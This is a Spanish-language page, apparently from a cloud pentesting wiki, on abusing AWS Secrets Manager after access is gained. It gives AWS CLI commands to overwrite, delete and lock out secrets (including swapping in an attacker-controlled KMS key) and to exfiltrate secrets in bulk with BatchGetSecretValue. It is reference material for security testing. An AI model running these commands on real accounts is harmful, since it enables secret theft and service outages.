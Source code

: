 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Para más información consulta:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

Los **secrets en sí mismos son información sensible**, [consulta la página de privesc](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) para aprender cómo leerlos.

### DoS Change Secret Value

Al cambiar el valor del secret podrías **DoS todos los sistemas que dependen de ese valor.**

> [!WARNING]
> Ten en cuenta que los valores anteriores también se almacenan, por lo que es fácil volver al valor anterior.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Si el atacante tiene el permiso secretsmanager:UpdateSecret, puede configurar el secret para que use una KMS key propiedad del atacante. Esa key se configura inicialmente de forma que cualquiera puede acceder y usarla, por lo que es posible actualizar el secret con la nueva key. Si la key no fuese accesible, no se podría actualizar el secret.

Tras cambiar la key del secret, el atacante modifica la configuración de su key para que solo él pueda acceder a ella. De este modo, en las versiones posteriores del secret se cifrará con la nueva key y, al no existir acceso a ella, se perdería la capacidad de recuperar el secret.

Es importante notar que esta inaccesibilidad solo ocurrirá en versiones posteriores, después de que cambie el contenido del secret, ya que la versión actual sigue cifrada con la KMS key original.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

El número mínimo de días para eliminar un secreto es 7.
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Es posible restaurar un secreto, lo que permite recuperar secretos que han sido programados para eliminación, ya que el periodo mínimo de eliminación para secretos es de 7 días y el máximo es de 30 días. Junto con el permiso secretsmanager:GetSecretValue, esto permite recuperar su contenido.

Para recuperar un secreto que está en proceso de eliminación, puedes usar el siguiente comando:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Esta acción permite eliminar la resource policy que controla quién puede acceder a un secret. Esto podría provocar un DoS si la resource policy se configuró para permitir el acceso a un conjunto específico de usuarios.

Para eliminar la resource policy:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Los estados de un secreto se usan para gestionar sus versiones. AWSCURRENT marca la versión activa que usan las aplicaciones, AWSPREVIOUS mantiene la versión anterior para que puedas revertir si es necesario, y AWSPENDING se usa en el proceso de rotación para preparar y validar una nueva versión antes de convertirla en la actual.

Las aplicaciones siempre leen la versión con AWSCURRENT. Si alguien mueve esa etiqueta a la versión equivocada, las aplicaciones usarán credenciales inválidas y pueden fallar.

AWSPREVIOUS no se usa automáticamente. Sin embargo, si AWSCURRENT se elimina o se reasigna incorrectamente, puede parecer que todo sigue funcionando con la versión anterior.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../../banners/hacktricks-training.md}}

### Exfiltración masiva de secretos mediante BatchGetSecretValue (hasta 20 por llamada)

Abusa de la API Secrets Manager BatchGetSecretValue para recuperar hasta 20 secretos en una sola solicitud. Esto puede reducir drásticamente el volumen de llamadas API en comparación con iterar GetSecretValue por cada secreto. Si se usan filtros (tags/name), también se requiere el permiso ListSecrets. CloudTrail aún registra un evento GetSecretValue por cada secreto recuperado en el lote.

Permisos requeridos
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue para cada secreto objetivo
- secretsmanager:ListSecrets si se usan --filters
- kms:Decrypt sobre las CMKs usadas por los secretos (si no se usa aws/secretsmanager)

> [!WARNING]
> Ten en cuenta que el permiso `secretsmanager:BatchGetSecretValue` no es suficiente para recuperar secretos; también necesitas `secretsmanager:GetSecretValue` para cada secreto que quieras recuperar.

Exfiltrar mediante lista explícita
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate por filtros (tag key/value o prefijo de nombre)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Manejo de fallos parciales
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Impacto
- Rápido “smash-and-grab” de muchos secrets con menos llamadas a la API, potencialmente eludiendo las alertas configuradas para picos de GetSecretValue.
- Los registros de CloudTrail aún incluyen un evento GetSecretValue por secret recuperado por el batch.
